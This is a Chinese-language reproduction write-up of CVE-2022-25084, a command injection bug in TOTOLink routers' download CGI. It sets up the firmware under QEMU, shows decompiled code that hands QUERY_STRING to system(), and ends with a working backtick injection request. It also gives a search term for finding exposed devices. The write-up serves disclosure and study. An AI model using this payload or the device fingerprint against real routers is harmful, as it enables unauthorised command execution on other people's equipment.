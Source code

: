 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## 网络测绘

```
"totolink"
```

## 漏洞复现

下载路由器固件

![image-20220519180647333](./images/202205191806401.png)

使用binwalk分解固件

![image-20220519180700129](./images/202205191807189.png)

查看分解出来的文件

![image-20220519180713772](./images/202205191807833.png)

使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![image-20220519180729455](./images/202205191807515.png)

启动后访问路由器页面

![image-20220519180743756](./images/202205191807814.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![image-20220519180807271](./images/202205191808361.png)

分析 cgi文件 `downloadFile.cgi`

![image-20220519180821187](./images/202205191808273.png)

我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![image-20220519180833486](./images/202205191808559.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![image-20220519180852180](./images/202205191808272.png)